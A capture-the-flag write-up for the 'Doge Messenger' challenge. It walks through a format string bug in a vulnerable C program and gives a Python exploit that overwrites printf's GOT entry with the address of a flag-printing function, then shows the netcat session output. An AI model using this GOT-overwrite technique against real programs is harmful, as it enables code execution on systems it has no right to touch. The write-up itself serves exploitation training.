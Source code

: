 ```yaml
---
title: "[SecurityMoocCTF] Doge Messenger (200 points)"
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/oucceD8.png"
tags:
  - securitymooc
excerpt: ""
---
```

Here's the [file link](/assets/write-ups/securitymoocctf/doge).
Here's the [C Source](/assets/write-ups/securitymoocctf/doge.c).


```
We have lost control on execution sequence of this program, a controlled execution were
allowing us to get the master key which one can use to login to anyone's tinder :). Here
is the binary and here is the source code. Use nc 52.7.95.224 8040 to connect to server.
```

Inspecting the source we have a function to get the flag:
{% highlight c%}
void getFlag()
{
	system("/bin/cat flag.txt\n");
}
{% endhighlight %}
But we don't have any calls to it.
Since all buffers and operations have fixed size thus, no buffer-overflow.

We notice at `line 62` that there's a `printf(buf)` (with a more-than-sufficient size of 256). So we can write at any address exploiting this format string vulnerability. Trying the string `aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X...` We see that that our input can be found at the 7th position (Notice the toggled case of 'aaaa').

I fired up gdb and checked `printf()`'s [disassembly](/assets/write-ups/securitymoocctf/doge.asm). Observe that it reads a jump using a value as an address from Data Segment (GOT):
{% highlight nasm%}
0x8048580 <printf@plt>:	jmp    DWORD PTR ds:0x804b010
{% endhighlight %}

So I chose the location `0x804b010`.
I got `getFlag()`'s address using `nm doge | grep getFlag` which gives `0x0804878b` as the value to write.

Our objective is to write exactly `0x0804878b` at location `0x804b010`.
Notice since I was writing using `printf` for the first time, I tried writing byte-by-byte instead of the usual 2 byte method, using python:
{% highlight python linenos %}
import struct
s='Kunal\n2\n'			#Need second call to printf to jump to getFlag()
s+=struct.pack('I',0x804b010) + 'a'*4
s+=struct.pack('I',0x804b011) + 'a'*4
s+=struct.pack('I',0x804b012) + 'a'*4
s+=struct.pack('I',0x804b013)
ff="%X"*5+"%" + str(0x4d + 0x8)
ff+= "X"+"%N%"+str(0x187-0x93+0x8)+"X%N%"
ff+= str(0x204-0x8f+0x8)+"X%N%"
ff+= str(0x108-0xc+0x8) + "X%N"
s+=ff
# with open("inp",'w') as f:
#	f.write(s)			#For use with gdb
print s					#For use with nc/debugging
{% endhighlight %}

One thing to take care of is that after the input, the program toggles the case of all the alphabets so, we had to be careful to toggle them intitally to nullify that effect (We fortunately didn't have any alphabets in any of the address bytes).

Now trying this input:
```console
$ python input.py | nc 52.7.95.224 8040 
                   ▄              ▄
                  ▌▒█           ▄▀▒▌
                  ▌▒▒█        ▄▀▒▒▒▐
                 ▐▄▀▒▒▀▀▀▀▄▄▄▀▒▒▒▒▒▐
               ▄▄▀▒░▒▒▒▒▒▒▒▒▒█▒▒▄█▒▐
             ▄▀▒▒▒░░░▒▒▒░░░▒▒▒▀██▀▒▌
            ▐▒▒▒▄▄▒▒▒▒░░░▒▒▒▒▒▒▒▀▄▒▒▌
            ▌░░▌█▀▒▒▒▒▒▄▀█▄▒▒▒▒▒▒▒█▒▐
           ▐░░░▒▒▒▒▒▒▒▒▌██▀▒▒░░░▒▒▒▀▄▌
           ▌░▒▄██▄▒▒▒▒▒▒▒▒▒░░░░░░▒▒▒▒▌
          ▌▒▀▐▄█▄█▌▄░▀▒▒░░░░░░░░░░▒▒▒▐
          ▐▒▒▐▀▐▀▒░▄▄▒▄▒▒▒▒▒▒░▒░▒░▒▒▒▒▌
          ▐▒▒▒▀▀▄▄▒▒▒▄▒▒▒▒▒▒▒▒░▒░▒░▒▒▐
           ▌▒▒▒▒▒▒▀▀▀▒▒▒▒▒▒░▒░▒░▒░▒▒▒▌
           ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▒▄▒▒▐
            ▀▄▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▄▒▒▒▒▌
              ▀▄▒▒▒▒▒▒▒▒▒▒▄▄▄▀▒▒▒▒▄▀
                ▀▄▄▄▄▄▄▀▀▀▒▒▒▒▒▄▄▀

         D O G E   M E S S E N G E R
         Send your message to doge!!

Your name: 
How many messages do you want to send? 
Your message: 
Doge's response: <Garbage>
...
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
```

